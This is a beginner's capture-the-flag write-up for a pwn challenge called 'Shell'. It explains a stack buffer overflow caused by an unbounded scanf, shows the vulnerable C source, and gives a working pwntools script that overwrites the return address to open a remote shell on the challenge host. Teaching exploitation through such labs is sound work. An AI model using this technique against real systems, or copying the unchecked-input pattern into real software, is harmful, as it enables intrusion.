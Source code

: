 # Shell

---

### Challenge Description

> Try to exploit this to get a shell!

> The challenge service is at:
3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:30601

---

### Solution Breakdown for Dummies 

We are given a binary and its source code. 

We first take a look at the source code

```c
void shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[32];
    setup_IO();

    printf("Input: ");
    scanf("%s", buf);

    return 0;
}
```

First we can see a shell function which pops a shell.

```c
void shell()
{
    system("/bin/sh");
}
```

 ` scanf("%s", buf); `
 
Next, as we move down the code, we can see, our main function takes in an input with scanf, but it does not limit the number of characters that it takes in. 

 `char buf[32];`

It saves this input into a variable buffer which holds 32 characters.

If we can input more than 32 characters, we can overflow other variables in the stack. What's the stack? How does the stack look!? 

Let's read on the code first. 

At the end of the main function, it calls `return 0;`. What this does is that it returns to an address in a previous function and executes the instructions there.

What is currently at the return address is however, not of concern.

However, if we can somehow set the return address to the address of our shell function, the main function would return to the shell function and executes /bin/sh, giving us code execution.

How can we do that? Let's visualize the stack.

![mem (1)](https://user-images.githubusercontent.com/76640319/114257043-c4a03800-99ef-11eb-923c-9088d6162e34.jpg)

So we have an input, we first want to overflow the 32 characters of the buf variable. 

Next, we want to fill up the bytes between buf and return address. This will be 8 characters in 32 bit binary. **(its a fact)**

Next, we want to find out the address of the shell function. We can do this in many ways. 

1. We can find it on objdump.

![image](https://user-images.githubusercontent.com/76640319/114257094-42644380-99f0-11eb-8319-0b29c22e2a13.png)

2. We can find it using nm.

![image](https://user-images.githubusercontent.com/76640319/114257098-485a2480-99f0-11eb-9a68-811960cbb9d5.png)

3. We can use gdb.

![image](https://user-images.githubusercontent.com/76640319/114257107-5ad45e00-99f0-11eb-80fe-f5737fc69cd3.png)

Okay, now we have everything we did. Let's write our script.

```py
from pwn import * 
#import pwntools

p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30601)
#connect to remote service

shelladdr = p32(0x08048569) 
#shell address in little endian

payload = b''
payload += b"A"*32 # overflow buf
payload += b"A"*8 #reach return addr
payload += shelladdr #overwrite return address with shell address so it returns to and executes shell

p.sendline(payload) #send payload
p.interactive() #pop a shell
```

![image](https://user-images.githubusercontent.com/76640319/114257224-e77f1c00-99f0-11eb-8e98-2c6443c29e5e.png)

We have successfully popped a shell!!

Now I believe that you can find the flag yourself :) Good luck pwners.

